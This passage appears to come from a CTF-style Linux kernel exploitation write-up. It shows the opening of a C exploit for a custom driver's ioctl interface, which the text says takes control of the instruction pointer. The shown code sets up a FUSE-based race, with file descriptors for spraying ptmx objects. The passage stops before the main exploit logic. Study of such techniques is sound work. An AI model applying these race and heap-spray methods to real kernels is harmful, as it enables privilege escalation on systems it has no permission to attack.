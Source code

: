 #### Exploit Script (part 1)

Here is the following exploit that sets the RIP to `0x5050505050505050`.

```c
#define _GNU_SOURCE
#define FUSE_USE_VERSION 29
#include <assert.h>
#include <errno.h>
#include <fcntl.h>
#include <fuse.h>
#include <linux/fuse.h>
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>
#include <signal.h>

#define CMD_ALLOC   0xBAADC0DE
#define CMD_SHOW    0x1337C0DE
#define CMD_WRITE   0xCAFEBABE
#define CMD_REALLOC 0xFEEDC0DE

struct user_req {
    unsigned char *data;
    size_t size;
};

int pwn_fd = -1;
int fd;
static char fuse_file_data[0x1000];
static int race_active = 0;
int ptmx[0x20]; // for our sprayed ptmx file descriptors

void fatal(const char *msg) {
    perror(msg);
    exit(1);
}

// placeholder function, need to have for FUSE
static int getattr_callback(const char *path, struct stat *stbuf) {
    memset(stbuf, 0, sizeof(struct stat));
    if (strcmp(path, "/pwn") == 0) {
        stbuf->st_mode = S_IFREG | 0777;
        stbuf->st_nlink = 1;
        stbuf->st_size = 0x1000;
        return 0;
    }
    return -ENOENT;
}

// placeholder function, need to have for FUSE
static int open_callback(const char *path, struct fuse_file_info *fi) {
    puts("[+] open_callback");
    return 0;
}


```
